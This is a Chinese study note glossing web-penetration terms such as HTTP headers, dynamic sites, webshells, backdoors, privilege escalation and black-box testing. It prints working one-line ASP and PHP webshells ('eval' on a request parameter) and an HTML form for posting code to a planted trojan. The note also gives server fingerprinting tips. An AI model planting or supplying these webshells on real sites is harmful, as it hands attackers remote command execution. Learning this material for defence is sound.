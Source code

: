 ```yaml
---
title: Hacker的部分专业术语
date: 2021-05-16 15:53:07
tags:
- 学习笔记
categories:
- [计算机知识, Web渗透]
---
```


* 脚本（asp，php，jsp）
* html（css，js，html）

* HTTP协议
  超文本传输协议
  （HTTP，HyperText Transfer Protocol）是互联网上应用最为广泛的一种网络协议。所有的WWW文件都必须遵守这个标准。设计HTTP最初的目的是为了提供一种发布和接收HTML页面的方法。

  `HTTP头`讲解：

  ```raw
  [root@bt ~]# curl-I www.baidu.com
  HTTP/1.1 200 OK
  Date:Sat, 18 Apr 2015 16:42:13GMT
  Content-Type: text/html; charset=utf-8
  Connection: Keep-Alive
  Vary: Accept-Encoding
  Set-Cookie: BAIDUID=3098620FDEE24194CF6F5A853507E9BC:FG=l; expires=Thu, 31-Dec-37 23:55:55 GMT; max-age=2147483647; path=/; domain=.baidu.com
  Set-Cookie: BIDUPSID=3098620FDEE24194CF6F5A853507E9BC; expires=Thu, 31-Dec-37 23:55:55 GMT; max-age=2147483647; path=/; domain=.baidu.com
  Set-Cookie: BDSVRTM=0; path=/
  Set-Cookie: BD_HOME=0; path=/
  Set-Cookie: H_PS_PSSID=13421_1426_13466_13074_12825_13381_12868_13322_12691_13410_10562_12722_12735_13439_13086_13477_13324_12836_13491_13162_13256_8498; path=/; domain=.baidu.com
  P3P: CP= "OTI_DSP_COR_IVA_OUR_IND_COM"
  ```

  200 响应码
  date 日期
  content-type 类型
  Accept-Charset：浏览器可接收的字符集
  Content-Length：表示请求消息正文的长度
  Cookie：这是最重要的请求头信息之一

  参考网站：
  [curl 的用法指南](http://www.ruanyifeng.com/blog/2019/09/curl-reference.html)
  [HTTP响应头信息|菜鸟教程](https://www.runoob.com/http/http-header-fields.html)
  [HTTP头部信息详解](https://www.cnblogs.com/wait59/p/13736601.html)
  [HTTP头部详解](https://blog.csdn.net/sinat_34166518/article/details/83584910)

  * 静态网站：
    静态网站是指全部由HTML（标准通用标记语言的子集）代码格式页面组成的网站，所有的内容包含在网页文件中。网页上也可以出现各种视觉动态效果，如：GIF动画、Flash动画、滚动字幕等，而网站主要是静态化的页面和代码组成，一般文件名均以htm、html、shtml等为后缀。
    如：http://www.xxx.com/index.html

  * 动态网站：
    动态网站并不是指具有动画功能的网站，而是指网站内容可根据不同情况动态变更的网站，一般情况下，动态微网站通过数据库进行架构。
    动态网站除了要设计网页外，还要通过数据库和编程序来使网站具有更多自动的和高级的功能。动态网站体现在网页一般是以asp，jsp，php，aspx等结尾，而静态网页一般是HTML结尾，动态网站服务器空间配置要比静态的网页要求高，费用也相应的高，不过动态网页利于网站内容的更新，适合企业建站。动态网站是相对于静态网站而言。
    如：http://xxx.com.cn/index.asp

  判断一个网站是什么编程语言写的，网站地址末尾加上index.asp/jsp/php/html等，也可加上robots.txt，有的是没有的，防止机器爬虫
  判断Linux系统还是Windows系统，把网页地址中的文件后缀其中一个字母改为大写，如不报错，即为Windows。（Linux系统大小写敏感，Windows系统不敏感）

  * 伪静态：
    “伪静态”顾名思义就是一种表面上看似是静态网页（以.html、.htm等结尾），不存在任何的数据交互，却其实是动态网页，存在数据交互的网站，具有这种特性的网页被称为“伪静态网页”。我们看到的伪静态网页其实是经过处理的，将动态网页的id等参数通过URL重写来隐藏，让查看者以为是静态网页。
    参考网站：
    [Web安全-伪静态网页](https://blog.csdn.net/weixin_39190897/article/details/104150886)

* CMS（B/S）
* MD5
* 肉鸡：被黑客入侵并被长期驻扎的计算机or服务器
* 抓鸡：利用大量的程序漏洞，使用自动化方式获取肉鸡的行为
* 漏洞：硬件，软件，协议等等的可利用安全缺陷，可能被攻击者利用，对数据进行篡改，控制等
* Webshell：通过Web入侵的一种脚本工具，可以据此对网站服务进行一定程度打的控制

* 一句话【木马】：
  通过向服务端提交一句简短的代码，配合本地客户端实现Webshell功能的木马。

  ```raw
  <%eval request(“pass”)%>
  <%execute (request(“pass”))%>
  ```

  request(“pass”)接收客户端提交的数据，pass为执行命令的参数值。
  eval / execute 函数执行客户端命令的内容。

  这种木马一般会被安全狗拦截
    如：PHP的一句话木马：

    ```php
    <?php eval($_POST[cracer]);?>
    ```

  下面的代码可以用POST的方式提交PHP语句，利用php脚本的各种函数，就可以实现执行系统命令，修改数据库、增删改文件等的各种功能。

    ```php
    <form method=post action=http://木马地址>
         <textarea name=yourname>
               //这里写php代码
               phpinfo();
         </textarea>
         <input type=submit>
    </from>
    ```

* 提权： 操作系统低权限的账户将自己提升为管理员权限使用的方法。
* 后门：黑客为了对主机进行长期的控制，在机器上种植的一段程序或留下的一个“入口”。

* 跳板：使用肉鸡IP来实施攻击其他目标，以便更好地隐藏自己的身份信息。
* 旁站入侵：
即同服务器下的网站入侵，入侵之后可以通过提权跨目录等手段拿到目标网站的权限。
常见的旁站查询工具有：
WebRobot、御剑、明小子和Web在线查询等。

* C段入侵：
即同C段服务器入侵，如目标ip为192.168.1.253入侵192.168.1.xxx的任意一台机器，然后利用一些黑客工具嗅探获取在网络上传输的各种信息。
常用的工具有：
Window环境——Cain
UNIX环境——Sniffit，Snoop，Tcpdump，Dsniff，etc.

* 渗透测试：
  * 黑盒测试：
    * 在未授权的情况下，摸你黑客的攻击方法和思维方式，来评估计算机网络系统可能存在的安全风险。
    * 黑盒测试不同于黑客入侵，并不等于黑站。黑盒测试考验的是综合能力（OS，Datebase，Script，code，思路，社工）
    * 思路与经验积累往往决定成败

  * 白盒测试：
    * 相对黑盒测试，白盒测试基本是从内部发起

  * 黑白盒的另一种说法：
    * 知道源代码和不知道源代码的渗透测试
这时，黑盒测试还是传统的渗透测试，而白盒测试就偏向于代码审计。

* APT攻击：
  * Advanced Persistent Threat（高级可持续性攻击）
  * 是指组织（especially the government）或者小团体利用先进的攻击手段对特定目标进行长期持续性网络攻击的攻击形式。
  * 特点：
    1. 极强的隐蔽性
    2. 潜伏期长，持续性强
    3. 目标性强

渗透测试的特点：

1. 充满挑战与刺激——不达目的不罢休
2. 思路与经验累积往往决定成败
